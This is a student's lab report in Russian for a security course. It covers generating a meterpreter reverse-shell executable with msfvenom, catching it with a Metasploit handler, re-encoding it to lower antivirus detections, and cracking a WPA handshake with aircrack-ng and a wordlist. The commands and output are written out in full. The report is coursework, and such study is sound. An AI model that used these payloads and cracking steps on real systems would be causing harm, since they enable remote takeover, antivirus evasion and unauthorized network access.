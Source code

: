 # Отчет

## Задание:

1. Доделать задания с metasploit+encoders
2. Ознакомиться с утилитами работы wifi
3. Разобрать дамп wpa.full.cap, найти хэндшейки в дампе, и попробовать сбрутить(показывал на уроке)
4. Найти хендшейк в предложенных дампах. Назвать ESSID, BSSID и канал атакованной сети, имя файла с EAPOL-пакетами.

## Выполнение:

### 1. Доделать задания с metasploit+encoders.

#### 1.1 Создание полезной нагрузки:

##### Команды:

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.139 -f exe >reverse1.exe


##### Результат:

##### Скриншот консоли:

![Image](payload.png)


#### 1.2 Использование полезной нагрузки:

##### Команды:


    msfconsole

    use exploit/multi/handler
    set lhost 192.168.1.139
    set payload windows/x64/meterpreter/reverse_tcp
    exploit 


##### Результат:

![Image](meterpreter.png)

#### 1.3 Использование encoders:

##### Команды:


    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.139 -f exe -x /mnt/hgfs/vmware/reverse1.exe -e x86/alpha_upper -i 5 > /mnt/hgfs/vmware/reverse_encode1.exe
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.139 -f exe -x /mnt/hgfs/vmware/reverse_encode1.exe -e x86/jmp_call_additive -i 5 > /mnt/hgfs/vmware/reverse_encode2.exe 

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.139 -f exe -x /mnt/hgfs/vmware/reverse_encode2.exe -e x86/countdown -i 50 > /mnt/hgfs/vmware/reverse_encode3.exe
    
##### Результат:

**Количество срабатываний на virustotal.com:**

- reverse1.exe - 44
- reverse_encode1.exe - 41
- reverse_encode2.exe - 40
- reverse_encode3.exe - 40



### 2. Ознакомиться с утилитами работы wifi

**Выполнено**.


### 3. Разобрать дамп wpa.full.cap, найти хэндшейки в дампе, и попробовать сбрутить.

##### Команды:

    ircrack-ng /mnt/hgfs/vmware/wpa.full.cap -w rockyou.txtc


##### Результат:

                               Aircrack-ng 1.6 

      [00:00:12] 60393/14344392 keys tested (4900.61 k/s) 

      Time left: 48 minutes, 35 seconds                          0.42%

                           KEY FOUND! [ 44445555 ]


      Master Key     : 17 4F E9 A8 9F 52 85 FF 0B 7F A3 05 03 DB 38 93 
                       75 15 D2 0B CE 17 D8 E2 EE 36 90 F0 47 B4 C5 0E 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : AE 83 8A AD 75 5C 16 1D 08 87 CD 2C F3 8C AE 60 



### 4  Найти хендшейк в предложенных дампах. Назвать ESSID, BSSID и канал атакованной сети, имя файла с EAPOL-пакетами.

#### 4.1 Хендшей обнаружен в дампе dump-02.cap

![Image](dump-02.png)

#### 4.2 Назвать ESSID, BSSID и канал атакованной сети

- ESSID: MGTS_GPON_7881
- BSSID: D4:21:22:34:D7:B4
- Канал: 1
- FILE: dump-02.cap


